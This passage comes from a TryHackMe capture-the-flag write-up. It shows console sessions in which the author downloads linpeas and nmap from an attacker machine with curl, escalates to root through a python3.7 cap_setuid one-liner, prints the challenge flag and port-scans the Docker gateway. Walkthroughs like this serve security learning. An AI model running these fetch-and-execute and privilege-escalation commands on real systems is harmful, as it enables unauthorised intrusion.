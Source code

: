 ```console
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
- So loaded a `linpeas.sh` file on the system and started the scan. <br />
```console
daemon@4a70924bafa0:/tmp$ curl http://10.8.0.150/linpeas.sh -o linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  131k  100  131k    0     0   152k      0 --:--:-- --:--:-- --:--:--  152k
daemon@4a70924bafa0:/tmp$ chmod +x linpeas.sh
daemon@4a70924bafa0:/tmp$ ./linpeas.sh
```
- In the script found `python3.7` as root capabilities
```console
[+] Capabilities
/usr/bin/python3.7 = cap_setuid+ep
```
- So upgraded to a shell with python 
```console
daemon@4a70924bafa0:/tmp$ /usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
root@4a70924bafa0:/tmp# whoami
root
```
- Got the user flag.
```console
root@4a70924bafa0:/home# find / -name "user.txt" 2>/dev/null
/root/user.txt
root@4a70924bafa0:/home# cat /root/user.txt
THM{eacffefe1d2aafcc15e70dc2f07f7ac1}
```
- There was nothing more interesting in the  `linpeas` output, so loaded `nmap` binary to the system for further enumeration.
```console
root@4a70924bafa0:/tmp# curl http://10.8.0.150/nmap -o nmap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 5805k  100 5805k    0     0  1064k      0  0:00:05  0:00:05 --:--:-- 1273k
root@4a70924bafa0:/tmp# chmod +x nmap
```
- For the purpose of scanning I chose the default gateway which is `172.17.0.1`
```console
root@4a70924bafa0:/tmp# ./nmap -p- 172.17.0.1 --min-rate=700 -vvv | tee nmap.log
Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-10-22 05:50 UTC
Initiating ARP Ping Scan at 05:50
Scanning 172.17.0.1 [1 port]
Completed ARP Ping Scan at 05:50, 0.20s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 05:50
Completed Parallel DNS resolution of 1 host. at 05:50, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 05:50
Scanning ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) [65535 ports]
Discovered open port 80/tcp on 172.17.0.1
Discovered open port 22/tcp on 172.17.0.1
Increasing send delay for 172.17.0.1 from 0 to 5 due to 11 out of 32 dropped probes since last increase.
SYN Stealth Scan Timing: About 10.96% done; ETC: 05:54 (0:04:12 remaining)
Increasing send delay for 172.17.0.1 from 5 to 10 due to 11 out of 33 dropped probes since last increase.
SYN Stealth Scan Timing: About 21.63% done; ETC: 05:54 (0:03:41 remaining)
Increasing send delay for 172.17.0.1 from 10 to 20 due to 11 out of 33 dropped probes since last increase.
SYN Stealth Scan Timing: About 32.31% done; ETC: 05:54 (0:03:11 remaining)
Increasing send delay for 172.17.0.1 from 20 to 40 due to 11 out of 29 dropped probes since last increase.
SYN Stealth Scan Timing: About 42.98% done; ETC: 05:54 (0:02:41 remaining)
```